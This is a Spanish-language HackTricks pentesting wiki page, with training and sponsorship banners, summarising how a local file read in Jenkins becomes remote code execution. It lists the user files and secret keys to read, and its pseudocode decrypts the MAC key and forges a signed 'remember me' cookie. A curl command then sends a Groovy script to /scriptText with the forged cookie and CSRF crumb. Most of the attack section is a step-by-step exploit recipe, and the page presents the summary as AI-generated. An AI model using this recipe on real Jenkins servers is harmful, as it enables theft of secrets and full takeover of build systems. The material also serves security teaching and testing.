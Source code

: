 # Jenkins Lectura Arbitraria de Archivos a RCE a través de "Recuerdame"

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

En esta publicación del blog es posible encontrar una gran manera de transformar una vulnerabilidad de Inclusión de Archivos Local en Jenkins en RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Este es un resumen creado por IA de la parte de la publicación donde se abusa de la creación de una cookie arbitraria para obtener RCE abusando de una lectura de archivo local hasta que tenga tiempo para crear un resumen por mi cuenta:

### Requisitos Previos al Ataque

* **Requisito de Función:** "Recuerdame" debe estar habilitado (configuración predeterminada).
* **Niveles de Acceso:** El atacante necesita permisos de Lectura/General.
* **Acceso Secreto:** Capacidad para leer tanto contenido binario como textual de archivos clave.

### Proceso de Explotación Detallado

#### Paso 1: Recolección de Datos

**Recuperación de Información del Usuario**

* Acceder a la configuración del usuario y secretos desde `$JENKINS_HOME/users/*.xml` para cada usuario para recopilar:
* **Nombre de usuario**
* **Semilla del usuario**
* **Marca de tiempo**
* **Hash de contraseña**

**Extracción de Claves Secretas**

* Extraer claves criptográficas utilizadas para firmar la cookie:
* **Clave Secreta:** `$JENKINS_HOME/secret.key`
* **Clave Maestra:** `$JENKINS_HOME/secrets/master.key`
* **Archivo de Clave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Paso 2: Falsificación de Cookies

**Preparación del Token**

*   **Calcular Tiempo de Expiración del Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Agrega una hora al tiempo actual
```
{% endcode %}
*   **Concatenar Datos para el Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Desencriptación de la Clave MAC**

*   **Desencriptar Archivo de Clave MAC:**

```javascript
key = toAes128Key(masterKey)  // Convertir clave maestra a formato de clave AES128
decrypted = AES.decrypt(macFile, key)  // Desencriptar el archivo .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Cálculo de la Firma**

*   **Calcular HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcular HMAC usando el token y la clave MAC
tokenSignature = bytesToHexString(mac)  // Convertir el MAC a una cadena hexadecimal
```

**Codificación de la Cookie**

*   **Generar Cookie Final:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codificar en base64 los datos de la cookie
```
{% endcode %}

#### Paso 3: Ejecución de Código

**Autenticación de Sesión**

* **Obtener Tokens CSRF y de Sesión:**
* Hacer una solicitud a `/crumbIssuer/api/json` para obtener `Jenkins-Crumb`.
* Capturar `JSESSIONID` de la respuesta, que se utilizará junto con la cookie de "recuerdame".

**Solicitud de Ejecución de Comando**

*   **Enviar una Solicitud POST con Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* El script Groovy se puede utilizar para ejecutar comandos a nivel de sistema u otras operaciones dentro del entorno de Jenkins.

El comando curl de ejemplo proporcionado demuestra cómo hacer una solicitud a Jenkins con los encabezados y cookies necesarios para ejecutar código arbitrario de manera segura.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}
